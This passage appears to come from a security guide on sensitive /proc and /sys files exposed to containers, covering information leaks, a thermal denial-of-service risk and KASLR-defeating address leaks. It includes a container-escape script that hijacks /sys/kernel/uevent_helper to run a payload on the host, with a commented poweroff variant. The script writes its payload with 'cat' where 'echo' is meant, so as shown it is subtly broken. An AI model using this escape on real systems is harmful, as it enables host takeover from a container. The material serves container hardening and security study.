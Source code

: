 ### /proc/sched\_debug

`/proc/sched_debug` is a special file returns process scheduling information for the entire system. This information includes process names and process IDs from all namespaces in addition to process cgroup identifiers. This effectively bypasses the PID namespace protections and is other/world readable, so it can be exploited in unprivileged containers as well.

### /proc/\[pid]/mountinfo

[/proc/\[pid\]/mountinfo](https://man7.org/linux/man-pages/man5/proc.5.html) contains information about mount points in the process's mount namespace. It exposes the location of the container `rootfs` or image.

## sysfs

### /sys/kernel/uevent\_helper

`uevents` are events triggered by the kernel when a device is added or removed. Notably, the path for the `uevent_helper` can be modified by writing to `/sys/kernel/uevent_helper`. Then, when a `uevent` is triggered (which can also be done from userland by writing to files such as `/sys/class/mem/null/uevent`), the malicious `uevent_helper` gets executed.

```bash
# Creates a payload
cat "#!/bin/sh" > /evil-helper
cat "ps > /output" >> /evil-helper
chmod +x /evil-helper
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets uevent_helper to /path/payload
echo "$host_path/evil-helper" > /sys/kernel/uevent_helper
# Triggers a uevent
echo change > /sys/class/mem/null/uevent
# or else
# echo /sbin/poweroff > /sys/kernel/uevent_helper
# Reads the output
cat /output
```

### /sys/class/thermal

Access to ACPI and various hardware settings for temperature control, typically found in laptops or gaming motherboards. This may allow for DoS attacks against the container host, which may even lead to physical damage.

### /sys/kernel/vmcoreinfo

This file can leak kernel addresses which could be used to defeat KASLR.

### /sys/kernel/security
